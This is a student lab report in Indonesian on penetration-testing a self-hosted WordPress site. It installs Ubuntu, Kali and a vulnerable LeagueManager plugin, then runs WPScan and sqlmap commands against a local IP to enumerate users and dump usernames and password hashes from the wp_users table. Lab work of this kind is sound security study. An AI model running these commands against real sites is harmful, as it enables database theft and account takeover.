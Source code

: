 #### Anggota:
* I Made Fandy Aditya Wirana    5114100026
* Muhammad Fahmi Abdurrahman    5114100028
* I Gede Putu Nobby Aswi Phala  5114100048

### Pendahuluan

  Laporan ini berisi uji penetrasi Wordpress. OS server yang digunakan yaitu Ubuntu Server 16.04.3 dan OS penyerang yang digunakan yaitu Kali Linux 2017.1. Tools yang digunakan untuk menyerang yaitu WPScan, sqlmap.
  
### Dasar Teori

  * #### Ubuntu Server
    Ubuntu Server Edition mendukung arsitektur Intel x86 dan AMD64. Edisi server menyediakan fitur seperti file/print services, web hosting, email hosting, dll. Ada beberapa perbedaan antara edisi server dan edisi desktop walaupun keduanya menggunakan repositori apt yang sama. Perbedaan utamanya adalah, pada edisi server X window environment tidak diinstall scara standar, walaupun antarmuka grafik dapat diinstall secara manual seperti Ubuntu desktop. CD Ubuntu Server Edition juga memiliki pilihan untuk menginstall Ubuntu Enterprise Cloud.
    
  * #### Kali Linux
    Kali Linux adalah distribusi Linux berbasis Debian yang ditujukan untuk uji penetrasi dan pengecekan keamanan. Kali memiliki ratusan tools yang disematkan untuk menjalankan berbagai task yang berkaitan dengan keamanan, seperti uji penetrasi, forensik digital, dan *Reverse Engineering*. Kali Linux dikembangkan oleh Offensive Security, perusahaan yang berkembang di bidang keamanan informasi.
    
  * #### WPScan
    WPScan adalah tools untuk mendeteksi keamanan dari wordpress dengan metode blackbox. Fitur yang dimiliki antara lain:
    * pencacah username
    * multithreaded password bruteforcing
    * pencari versi plugin WordPress dan
    * pencari kerentanan sistem web wordpress
    
  * #### sqlmap
    sqlmap adalah alat pengujian open source yang mendeteksi dan mengeksploitasi kelemahan dalam SQL injection dan mengambil alih server database. Muncul dengan mesin pendeteksi yang hebat, banyak fitur untuk tester penetrasi akhir dan berbagai switch yang bertahan dari sidik jari database, melebihi pengambilan data dari database, untuk mengakses sistem berkas yang mendasarinya dan menjalankan perintah pada sistem operasi melalui sistem out- koneksi band.
    Mendukung  DBMS MySQL, Oracle, PostgreSQL, Microsoft SQL Server, Microsoft Access, IBM DB2, SQLite, Firebird, Sybase, SAP MaxDB, HSQLDB dan Informix.

### Instalasi Ubuntu Server + OpenSSH Server

  1. Download file instalasi Ubuntu Server dan mount ke virtual machine
      https://www.ubuntu.com/download/server
      
  2. Pilih "*Install Ubuntu Server*"
     ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/install-choose-server.png)
  3. Set Hostname, Username, dan Password
     ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/install-host-server.png)
     ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/install-user-server.png)
     ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/install-pwd-server.png)
  4. Set Partition Disk Menjadi *Guided - use entire disk*
     ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/install-part-server.png)
  5. Tunggu instalasi selesai
     ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/install-wait-server.png)
  6. Lakukan konfigurasi lainnnya
     ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/config-taskkel-server.png)
  7. Pilih software yang akan diinstall
     ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/install-soft-server.png)
  8. Tunggu instalasi software
     ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/install-soft-wait-server.png)
  9. Install Bootloader Grub
     ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/install-grub-server.png)
  10. Selesai!!!
     ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/done-server.png)
### Instalasi Kali Linux
  
  1. Download file instalasi Kali Linux dan mount ke virtual machine
      https://www.kali.org/downloads/

  2. Pilih *Graphical Install*
     ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/install-choose-kali.png)
  3. Set Hostname, Username, dan Password
     ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/install-host-kali.png)
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/install-user-kali.png)
  4. Set Partition Disk menjadi *Guided - use entire disk*
     ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/install-part-kali.png)
  5. Set Disk yang akan dibuat menjadi partisi
     ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/install-disk-kali.png)
  6. Set Partition Scheme menjadi *All files in one partition*
     ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/install-scheme-kali.png)
  7. Tunggu Instalasi Selesai
     ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/install-wait-kali.png)
  8. Selesai!!!

### Instalasi LAMP server

  1. Gunakan perintah seperti berikut
     >```sudo tasksel install_lamp-server```
  2. Tunggu file didownload
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/Install%20LAMP%20dan%20wordpress%20di%20ubuntu/2.png)
  3. Set password untuk user root dari mysql
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/Install%20LAMP%20dan%20wordpress%20di%20ubuntu/3.png)
  4. Tunggu instalasi selesai
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/Install%20LAMP%20dan%20wordpress%20di%20ubuntu/4.png)
  5. Selesai!!!
    
### Instalasi Wordpress
  1. Dowload Wordpress dengan perintah seperti berikut
  >```wget http://wordpress.org/latest.zip```
  2. Extract file ke /var/www/html
  >```sudo unzip latest.zip -d /var/www/html```
  3. Ganti kepemilikan dan hak akses dari folder wordpress
  >```sudo chown -R www-data:www-data /var/www/html/wordpress///```
  >```sudo chmod -R 775 /var/www/html/wordpress/```
  4. Berikan Port Forwarding Rules ke Vitual Machine agar dapat diakses dari luar
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/Install%20LAMP%20dan%20wordpress%20di%20ubuntu/4-wp.png)
  5. Berikan rules firewall di ubuntu server, lalu restart firewall
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/Install%20LAMP%20dan%20wordpress%20di%20ubuntu/5-wp.png)
  6. Buka mysql, lalu buat database dengan nama wordpress
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/Install%20LAMP%20dan%20wordpress%20di%20ubuntu/6-wp.png)
  7. Buka halaman depan dari Wordpress, lalu akan ada inisialisasi
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/Install%20LAMP%20dan%20wordpress%20di%20ubuntu/Screenshot%20(49).png)
  8. Isi konfigurasi database dengan yang telah dibuat sebelumnya
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/Install%20LAMP%20dan%20wordpress%20di%20ubuntu/Screenshot%20(50).png)
  9. Set konfigurasi website
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/Install%20LAMP%20dan%20wordpress%20di%20ubuntu/Screenshot%20(51).png)
  10. Selesai!!!

### Instalasi Plugin
   1. Masuk ke menu Plugin -> Add New
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/Install%20Video%20Player%20wordpress/Screenshot%20(53).png)
    2. Klik tombol Upload Plugin
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/Install%20Video%20Player%20wordpress/Screenshot%20(54).png)
    3. Pilih file plugin, lalu klik Install Now
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/Install%20Video%20Player%20wordpress/Screenshot%20(55).png)
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/Install%20LeagueManager%20di%20wordpress/Screenshot%20(58).png)
    4. Tunggu instalasi selesai
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/Install%20LeagueManager%20di%20wordpress/Screenshot%20(59).png)
    5. Selesai!!!
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/Install%20Video%20Player%20wordpress/Screenshot%20(57).png)
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/Install%20LeagueManager%20di%20wordpress/Screenshot%20(60).png)
 
### Uji Penetrasi
   * #### WPScan
    1. Lakukan tes dengan cara berikut
    > ```wpscan --url http://192.168.1.1 --enumerate -u```
    2. Jika berhasil akan menampilkan informasi kelemahan plugin
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/wpscan%20dan%20sqlmap/2.png)
    3. Tambahkan data pada LeagueManager pada panel adming di wordpress
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/wpscan%20dan%20sqlmap/3.png)
   * sqlmap
    1. Lakukan command di bawah terlebih dahulu untuk mengetahui informasi database
    > ```sqlmap --url="192.168.1.1/wordpress/?season=2017&league_id=1" -p league_id --dbs```
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/wpscan%20dan%20sqlmap/1-sinj.png)
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/wpscan%20dan%20sqlmap/2-sinj.png)
    2. Dapatkan informasi tabel dengan command dibawah ini
    > ```sqlmap --url="192.168.1.1/wordpress/?season=2017&league_id=1" -D wordpress --tables```
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/wpscan%20dan%20sqlmap/3-sinj.png)
    3. Dapatkan informasi kolom pada tabel dengan command dibawah ini
    > ```sqlmap --url="192.168.1.1/wordpress/?season=2017&league_id=1" -T wp_users --columns
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/wpscan%20dan%20sqlmap/4-sinj.png)
    4. Dapatkan informasi user dan password dengan command dibawah ini
    > ```sqlmap --url="192.168.1.1/wordpress/?season=2017&league_id=1" -T wp_users -C user_login,user_pass --dump
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/wpscan%20dan%20sqlmap/5-sinj.png)
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/wpscan%20dan%20sqlmap/6-sinj.png)
  
  





### Kesimpulan dan Saran
   Serangan SQL Injection adalah memodifikasi perintah sql dari aplikasi client dengan cara menyisipkan kedalamnya. Dalam hal ini terdapat plugin dari wordpress yang tidak di optimasi querynya, sehingga rentan SQL Injection tersebut. Dengan tools tools tersebut, developer dapat memeriksa keamanan dari plugin dan seisi websitenya, sehingga developer dapat memperbaharui plugin atau mengganti plugin yang tidak aman.
